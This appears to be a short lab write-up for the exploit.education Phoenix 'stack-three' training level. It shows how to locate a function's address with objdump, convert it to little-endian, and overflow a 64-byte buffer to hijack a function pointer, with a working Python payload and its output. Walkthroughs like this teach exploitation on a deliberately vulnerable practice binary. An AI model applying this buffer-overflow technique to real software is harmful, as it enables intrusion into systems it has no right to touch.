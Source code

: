 <h3 style="text-align:center" dir="rtl">بسم الله الرحمن الرحيم </h3>

# Stack Three :
In this level we will overwrite a function pointer to make it point to the address of `complete_level` funtion.

<br/>

First we need to find the address of the function `complete_level`. Using `objdump` we can find that address.
```bash
objdump -t stack-three | grep complete_level

000000000040069d g     F .text	0000000000000018 complete_level
```
<br/>
Since the machine is using little endian byte ordering we will change the address to meet its specifications.

```
Big Endian              Little Endian
----------              -------------
000000000040069d        9d06400000000000
```

In python we will write as `\x9d\x06\x40\x00\x00\x00\x00\x00`. The padding from `buffer` to `fp` is 64 byte.
```python
print('A'*64 + '\x9d\x06\x40\x00\x00\x00\x00\x00')
```
<br/>

```bash
python -c "print('A'*64 + '\x9d\x06\x40\x00\x00\x00\x00\x00')" | ./stack-three

Welcome to phoenix/stack-three, brought to you by https://exploit.education
calling function pointer @ 0x40069d
Congratulations, you've finished phoenix/stack-three :-) Well done!
```
